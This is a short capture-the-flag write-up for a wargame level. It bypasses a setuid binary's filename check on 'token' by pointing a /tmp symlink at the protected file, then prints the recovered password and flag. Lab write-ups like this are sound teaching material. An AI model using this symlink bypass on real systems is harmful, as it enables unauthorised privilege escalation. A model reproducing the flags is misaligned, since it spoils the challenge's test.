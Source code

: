 # level08

```shell
ls -la
```

shows that the level08 executable belongs to flag08 group, privilege escalation should be possible. token is level08:level08

level08.c shows that a simple input validation is required to open the file and print its content : it needs not to contain 'token'

```shell
ln -s ~/token /tmp/exploit
```

```shell
./level08 /tmp/exploit
```

gives flag08's password:

```shell
quif5eloekouj29ke0vouxean
```

gives flag:

```shell
25749xKZ8L7DkSCwJkT9dyv6f
```
